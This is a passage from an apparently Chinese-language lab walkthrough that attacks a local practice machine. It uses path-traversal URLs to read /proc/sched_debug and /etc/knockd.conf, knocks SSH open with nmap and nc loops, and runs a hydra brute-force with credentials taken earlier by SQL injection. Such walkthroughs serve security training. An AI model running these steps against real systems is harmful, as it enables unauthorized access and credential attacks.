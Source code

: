 ![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWaibWN6Y9ia13xG1Xt3bDBqzwERn6RfOHTVoHXTtUQWcCmIfx4CBibk7JA9pQuG86XIjdVpQicV62aKVVQ/640?wx_fmt=png)

这里我们就找到参数 file

![](https://mmbiz.qpic.cn/mmbiz_jpg/XWPpvP3nWaibWN6Y9ia13xG1Xt3bDBqzwEVxkWlukb6csRXl9xNbkr6PG57QvTFpWFdibjMRYFUUtj2QnrlR9Cd5w/640?wx_fmt=jpeg)

然后我们通过 **/proc/sched_debug** 来查看 Linux 系统中任务的调度情况

```
http://192.168.56.112/manage.php?FUZZ=../../../../../../../../../proc/sched_debug
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/XWPpvP3nWaibWN6Y9ia13xG1Xt3bDBqzwE2L66Ywh4miahqSvrIXP8WD5Cru7w5h9UBuEy70CU7zD8To9yxY3AkJg/640?wx_fmt=jpeg)

整理查询发现靶机上运行这 knockd

关于 knockd 的介绍：https://blog.csdn.net/nzjdsds/article/details/112476120

![](https://mmbiz.qpic.cn/mmbiz_jpg/XWPpvP3nWaibWN6Y9ia13xG1Xt3bDBqzwEL1LTzhyg7AmGSyHsMDqSSsqMDuUiaTT4iaibY25KTOJJ5iaiboTtODqYJcQ/640?wx_fmt=jpeg)

那么我们读取下 knockd 的配置文件

```
http://192.168.56.112/manage.php?FUZZ=../../../../../../../../../etc/knockd.conf
```

![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWaibWN6Y9ia13xG1Xt3bDBqzwEEzDTj24tGTcfIYaf44stLs28eBiaHJMXMAjlq3Kyn2EMFDOr27AMQWg/640?wx_fmt=png)

```
options] 
        UseSyslog
[openSSH] 
        sequence = 7469,8475,9842 
        seq_timeout = 25 
        command = /sbin/iptables ‐I INPUT ‐s %IP% ‐p tcp ‐‐dport 22 ‐j ACCEPT 
        tcpflags = syn
[closeSSH] 
        sequence = 9842,8475,7469 
        seq_timeout = 25 
        command = /sbin/iptables ‐D INPUT ‐s %IP% ‐p tcp ‐‐dport 22 ‐j ACCEPT 
        tcpflags = syn
```

这里提供 2 种敲击方法：nc、nmap

```
for x in 7469 8475 9842;do nmap ‐Pn ‐‐max‐retries 0 ‐p $x 192.168.56.112;done 
for x in 7469 8475 9842 22 ;do nc 192.168.56.112 $x;done
```

![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWaibWN6Y9ia13xG1Xt3bDBqzwEK2V8yJ6oq0c3SLJcdczfA0SUEUO8L9ia4QBebGU2wzkyIxzqKmFcq0A/640?wx_fmt=png)

此时 SSH 就可以正常连接，接下来我们用 hydra 来进行爆破，用户名和密码就是我们先前 SQL 注入获得的

```
hydra ‐L username ‐P password ssh://192.168.56.112
```

